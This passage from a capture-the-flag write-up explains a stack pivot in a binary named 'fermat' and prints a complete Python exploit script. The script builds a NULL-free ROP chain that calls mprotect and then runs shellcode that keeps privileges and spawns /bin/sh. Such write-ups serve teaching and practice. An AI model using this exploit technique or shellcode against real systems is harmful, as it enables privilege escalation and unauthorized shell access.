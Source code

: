 I slightly modified this approach because of these instructions in `main`:

![AltText](/assets/images/icectffermat_4.JPG)

Following `leave`,
the value in memory pointed by `ecx - 4` is moved into `esp`. Luckily, we can control the content of `ecx`, since it is loaded in:
`mov ecx, DWORD PTR [ebp - 0x4]`, and `ebp` is already pointing to our fake stack.

The rest of the work has just been writing a ROPchain which didn't contain NULL bytes (that couldn't reside in `env`) -- but since the binary is statically linked, I have a whole load of ROP gadgets already linked to binary, found with `ropper` -- and carefully computing addresses inside and outside gdb. Here, the script to generate the payload, which I used in target machine with:

`USER=$(python exploit.py) ./fermat "%14\$hn"`

```
import struct

def p32(address):
  return struct.pack("I", address)

# To compute addresses to store args to mprotect
mprotect_base = 0xffff105c
# mprotect requires a page aligned boundary
stackpage_base = 0xffff1000
# setreuid(geteuid(), geteuid()) && execve("/bin//sh", NULL, NULL)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
shellcode += "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


movdpedx = 0x08055a2b # mov dword ptr [edx], eax; ret
xoreax = 0x08049743 # xor eax, eax; ret
inceax = 0x0807f1bf # inc eax; ret
popedx = 0x08073bda # pop edx; ret
popeax = 0x080bd026 # pop eax; ret
mprotect = 0x8072c50 # address to mprotect

# The ropchain computes args to mprotect and pushes them
# to the right address in fake stack, which is after mprotect_base.
# mprotect_base is a value I have computed by trial, looking
# at where, after payload injection, mprotect address was loaded
# into fake stack.

ropchain = p32(popedx) + p32(mprotect_base + 4) + p32(popeax)
ropchain += p32(stackpage_base - 1) + p32(inceax) + p32(movdpedx)
ropchain += p32(popedx) + p32(mprotect_base + 8) + p32(xoreax)
ropchain += p32(inceax) + p32(movdpedx) + p32(popedx) + p32(mprotect_base + 12)
ropchain += p32(xoreax) + p32(inceax)*7 + p32(movdpedx) + p32(mprotect)
# mprotect_base + 16 points to the shellcode; we need to ret to it.
# BBBB*3 will be overwritten at runtime by movdpedx gadgets.
ropchain += p32(mprotect_base + 16) + "BBBB"*3


payload = "A"*6394  # Distance between 0xffff0000 - 0x4 and start of USER
payload += p32(0xffff1004) # address to load into esp + 0x4
payload += 'A'*4096 # JUNK
payload += ropchain
payload += shellcode
payload += 'A'*(30000 - len(payload)) # just because I used 30k to compute addresses and experiment.
print(payload)
```
